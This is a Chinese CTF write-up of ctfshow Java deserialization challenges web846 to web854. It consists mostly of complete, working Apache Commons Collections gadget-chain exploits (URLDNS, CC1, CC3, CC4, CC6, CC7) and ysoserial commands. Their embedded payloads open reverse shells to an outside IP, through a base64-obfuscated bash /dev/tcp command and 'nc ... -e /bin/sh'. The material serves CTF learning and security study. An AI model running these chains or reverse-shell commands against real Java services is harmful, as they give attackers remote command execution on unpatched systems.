







---
title: "ctfshow入门java反序列化"
date: 2026-02-24T14:28:18+08:00
summary: "ctfshow入门java反序列化"
url: "/posts/ctfshow入门java反序列化/"
categories:
  - "ctfshow"
tags:
  - "java"
draft: false
---

# web846

## #URLDNS链

```java
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;
import java.util.Base64;

public class URLDNS {
    public static void main(String[] args) throws Exception{
        //构造函数中可以传入一个ip地址
        URL url = new URL("http://0cc054b6-237d-45fe-806c-95d59655509c.challenge.ctf.show/");
        Class c = url.getClass();
        Field hashCode = c.getDeclaredField("hashCode");
        //受保护类型，需要设置权限
        hashCode.setAccessible(true);
        //将URL的hashCode设置为不是-1，就不会在put的时候调用hashCode访问dns了
        hashCode.set(url,1);
        HashMap<URL, Integer> map = new HashMap<>();
        map.put(url, 1);
        //将URL的hashCode设置为-1，是为了在反序列化的时候调用URL的hashCode访问dns
        hashCode.set(url,-1);
        serialize(map);
    }

    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
}
```

然后将base64编码的字符串进行url编码后传入就行了

当然也可以用工具[ysoserial](https://github.com/frohoff/ysoserial)

```java
java -jar ysoserial-[version]-all.jar [payload] '[command]'
```

```java
java -jar ysoserial-all.jar URLDNS "http://68fa5a21-03f5-46eb-9d5f-f8bd5e5e793a.challenge.ctf.show/"|base64
```

# web847

## #CC1链

环境是java7和commons-collections 3.1

直接打CC1，不会的可以去看我审链子的文章[Java反序列化CC1链](https://wanth3f1ag.top/2025/05/27/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CC1%E9%93%BE/)

打反弹shell的exp

```java
package SerializeChains.CCchains.CC1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC1plus {
    public static void main(String[] args) throws Exception {
        /*
         *
         * CC1plus链：
         * AnnotationInvocationHandler类
         *   ->Proxy
         *       -> invoke()
         * LazyMap类
         *       ->get()
         * ChainedTransformer类
         *   -> transform(Transformers[])
         *       -> ConstantTransformer类
         *       -> InvokerTransformer类
         *           -> transform(Runtime.class)
         *               -> getMethod()
         *               -> invoke()
         *                   ->exec()
         * 利用LazyMap.get方法走动态代理来调用ChainedTransformer.transform
         */

        Transformer[] fake_transformer = new Transformer[]{
                new ConstantTransformer(1),
        };
        //实例化Runtime对象并调用exec方法执行命令
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}), 
                //反弹shell的命令
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fake_transformer);

        //传入factory为chainedTransformer
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        //Proxy动态代理触发LazyMap#get()
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructorhandler = handler.getDeclaredConstructor(Class.class, Map.class);
        constructorhandler.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructorhandler.newInstance(Override.class,lazyMap);

        //配置代理Map
        Map proxyedMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);

        Object obj = constructorhandler.newInstance(Override.class,proxyedMap);

        setFieldValue(chainedTransformer,"iTransformers",Transformer);

        serialize(obj);

    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
}
```

ysoserial工具payload

```java
java -jar ysoserial-all.jar CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"|base64
```

# web848

## #CC6链or其他

这里禁止了TransformedMap类反序列化，可以用CC6的链子，或者用CC1另一条LazyMap的get方法触发链

```java
package SerializeChains.CCchains.CC6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    /*
    * CC6链子:
    * HashMap#readObject()
    * ->HashMap#hash()
    *     ->TiedMapEntry.hashCode()
    *     ->TiedMapEntry.getvalue()
    *          ->LazyMap.get()
    * ->ChainedTransformer.transform()
    *       ->InvokerTransformer.transform()
    *           ->Runtime.exec()
    * */
    public static void main(String[] args) throws Exception {
        //设置一个假的Transformer避免提前触发hash
        Transformer[] fake_transformer = new Transformer[]{
                new ConstantTransformer(1),
        };
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                //反弹shell的命令
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fake_transformer);

        //生成LazyMap对象并传给TiedMapEntry
        Map<Object,Object> lazyMap = LazyMap.decorate(new HashMap<>(),chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2");

        //put放入readObject中的key，其中也会触发hashCode
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");

        //移除key，反序列化触发调用transform()
        lazyMap.remove("2");

        //反射修改factory值，反序列化触发hash方法
        setFieldValue(chainedTransformer,"iTransformers",Transformer);

        serialize(hashmap);

    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

}
```

当然也可以用用工具ysoserial

```java
java -jar ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"|base64
```

# web849

## #CC4链orCC2链

这次是用的Common-collection4.0版本，直接打CC4或者CC2就行

需要nc反弹

```java
nc ip port -e /bin/sh
```

所以我们的EXP（以CC4为例）

```java
package POC.CC4;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.PriorityQueue;
import javax.xml.transform.Templates;
import java.io.*;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

public class CC4 {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\POC\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        //方法一：修改size值
//        Class priorityqueue = priorityQueue.getClass();
//        Field size = priorityqueue.getDeclaredField("size");
//        size.setAccessible(true);
//        size.set(priorityQueue, 2);

        //方法二：add方法触发链
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class t = transformingComparator.getClass();
        Field transformerField = t.getDeclaredField("transformer");
        transformerField.setAccessible(true);
        transformerField.set(transformingComparator,chainedTransformer);

        serialize(priorityQueue);
//        unserialize("CC4.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object obj) throws IOException {
        ByteArrayOutputStream data =new ByteArrayOutputStream();
        ObjectOutput oos =new ObjectOutputStream(data);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

在需要加载的类中的内容

```java
package POC.CC3;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class URLClassLoader_test extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("nc 124.223.25.186 2333 -e /bin/sh");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

然后生成payload并传入就行，CC2也是一样的

ysoserial的payload

```java
java -jar ysoserial-all.jar CommonsCollections4 "nc 124.223.25.186 2333 -e /bin/sh"|base64
java -jar ysoserial-all.jar CommonsCollections2 "nc 124.223.25.186 2333 -e /bin/sh"|base64
```

# web850

## #CC3链

因为这里的话使用了**commons-collections 3.1**的库并对一些可能有危险的类进行了封禁，所以直接用CC3就行，CC3可以绕过Runtime类禁用的情况

我们CC3的POC

```java
package SerializeChains.CCchains.CC3;


import SerializeChains.Gedget.Gadgets;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC3upup {
    /*
     * 利用LazyMap.get方法走Proxy动态代理来调用ChainedTransformer.transform
     * */
    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = (TemplatesImpl) Gadgets.createTemplatesImpl("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}");

        //InstantiateTransformer#transform()触发链
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //CC1plus
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        //Proxy动态代理触发LazyMap#get()
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructorhandler = handler.getDeclaredConstructor(Class.class, Map.class);
        constructorhandler.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructorhandler.newInstance(Override.class,lazyMap);
        Map proxyedMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);

        Object obj = constructorhandler.newInstance(Override.class,proxyedMap);

        //反射修改factory值
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);

        serialize(obj);
    }

    //定义一个修改属性值的方法
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Gadgets.toBase64(data.toByteArray()));
    }
}

```

这里的话我是用到ysoserial中创建恶意TemplatesImpl的方法去做的，不知道为什么自己的字节码一直加载失败，后面才知道环境是jdk7，而我的字节码是在jdk8下生成的，jdk7不兼容，换成jdk7后重新传入就可以打了



反弹shell后在机器中也可以看到是jdk7



也可以直接用工具

```java
java -jar ysoserial-all.jar CommonsCollections3 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}"|base64
```

# web851

## #CC7链

前面的CC4和CC2肯定是用不了了，看看CC7的一条结合CC6的链子，其实在commons-collections4中也是可以用的



这条链子的调用链是从DefaultedMap#get()触发从而触发transform

```java
Hashtable#readObject() 触发 DefaultedMap#get() → 调用 transformer，适用于commons-collections4
```

POC

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7plus {
    /*
     * Hashtable#readObject() 触发 DefaultedMap#equals() → 调用 transformer，适用于commons-collections4
     * */
    public static void main(String[] args) throws Exception {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"nc 124.223.25.186 2333 -e /bin/sh"})
        };

        //CC7链的开始
        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Class<DefaultedMap> d = DefaultedMap.class;
        Constructor<DefaultedMap> declaredConstructor = d.getDeclaredConstructor(Map.class, Transformer.class);
        declaredConstructor.setAccessible(true);
        DefaultedMap defaultedMap1 = declaredConstructor.newInstance(hashMap1, transformerChain);
        DefaultedMap defaultedMap2 = declaredConstructor.newInstance(hashMap2, transformerChain);
        defaultedMap1.put("yy", 1);
        defaultedMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(defaultedMap1, 1);
        hashtable.put(defaultedMap2, 1);

        Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);

        defaultedMap2.remove("yy");
        serialize(hashtable);

    }
//    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }

}

```

题目提示有nc，那就直接反弹就行了

当然也可以通过利用CC5的触发链触发get方法：http://localhost:4000/2025/06/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CC5%E9%93%BE/

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.DefaultedMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class CC7plus {
    /*
     * BadAttributeValueExpException#readObject() 触发 TiedMapEntry#getValue() → 触发DefaultedMap#get()方法，适用于commons-collections4
     * */
    public static void main(String[] args) throws Exception {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        //CC7链的开始
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        DefaultedMap defaultedMap = new DefaultedMap(chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap,"evo1");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("evo");

        Class bc = badAttributeValueExpException.getClass();
        Field val = bc.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);

        serialize(badAttributeValueExpException);
        unserialize("CC7plus.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC7plus.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

}
```

# web852

## #CC7链2

上面851的链子是可以打的，当然也可以用适用于commons.collections4的CC7触发LazyMap#get()方法的链子

```java
package SerializeChains.CCchains.CC7;

import org.apache.commons.collections4.map.LazyMap;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7plus2 {
    /*
    * https://blog.csdn.net/weixin_43610673/article/details/125631391
    * 适用于commons.collections4中CC7LazyMap#get()触发链的poc
    * commons.collections和commons.collections4主要区别在于：
    * 在LazyMap.decorate 这个方法被修改了在commons-collections4中对应的方法为LazyMap.lazyMap
    * 所以将之前CC7的链子里的decorate换成lazyMap就行
    * */
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"nc 124.223.25.186 2333 -e /bin/sh"})
        };
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        //CC7链的开始
        //使用Hashtable来构造利用链调用LazyMap
        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Map lazyMap1 = LazyMap.lazyMap(hashMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.lazyMap(hashMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 1);

        //输出两个元素的hash值
        System.out.println("lazyMap1 hashcode:" + lazyMap1.hashCode());
        System.out.println("lazyMap2 hashcode:" + lazyMap2.hashCode());


        //iTransformers = transformers（反射）
        Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        lazyMap2.remove("yy");
        serialize(hashtable);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
}
```



# web853

## #CC7链

其实853是把LazyMap的触发链给ban了的，预期解应该就是851我们的DefaultedMap链子

# web854

## #CC7链

然后进行反序列化
我是java8，使用了**commons-collections 4.0**的库并对一些可能有危险的类进行了封禁，包含:

